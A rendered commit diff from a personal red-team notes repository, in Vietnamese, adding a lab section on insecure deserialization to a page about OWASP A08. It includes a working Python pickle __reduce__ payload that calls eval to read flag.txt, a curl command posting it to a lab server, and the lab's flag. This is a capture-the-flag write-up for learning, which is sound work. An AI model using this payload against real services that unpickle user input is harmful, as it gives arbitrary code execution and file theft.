

Before and after one commit to TrangTuanAnh/redteam-notes, a Markdown page: web-attacks/owasp-top10/AS08-software-data-integrity.md, the part around the change. GitHub-like rendering; blank space fills up the shorter version.

Commit message:
feat(as08): add insecure deserialization lab section
- Document pickle __reduce__ exploit chain
- Include payload generation script and curl command
- Flag: THM{INSECURE_DESERIALIZATION}

````diff
--- a/web-attacks/owasp-top10/AS08-software-data-integrity.md
+++ b/web-attacks/owasp-top10/AS08-software-data-integrity.md
@@ -140,6 +140,36 @@ Dấu hiệu nguy hiểm:
 
 ---
 
+## Lab thực hành
+
+"Integrity Lab: Insecure Deserialization" tại `http://10.48.150.155:8002/` — server nhận pickle data base64 từ user và deserialize không có bất kỳ kiểm tra nào.
+
+**Tạo payload:** Pickle cho phép class tự định nghĩa cách deserialize qua `__reduce__`. Khi `pickle.loads()` gặp object này, nó gọi ngay `callable(*args)` — tức là thực thi code tùy ý.
+
+```python
+import pickle, base64
+
+class Exploit:
+    def __reduce__(self):
+        return (eval, ("open('flag.txt').read()",))
+
+print(base64.b64encode(pickle.dumps(Exploit())).decode())
+```
+
+**Gửi payload:**
+
+```bash
+curl -s -X POST http://10.48.150.155:8002/ \
+  --data-urlencode "pickle_data=<base64_output>" \
+  | grep -oE 'THM\{[^}]+\}'
+```
+
+Flag: `THM{INSECURE_DESERIALIZATION}`
+
+Chain exploit: `__reduce__` → `(eval, "open('flag.txt').read()")` → server tự gọi `eval()` → đọc file. Không cần auth, không cần gì ngoài một pickle payload hợp lệ.
+
+---
+
 ## Tham khảo
 
 - OWASP: https://owasp.org/Top10/A08_2021-Software_and_Data_Integrity_Failures/
````
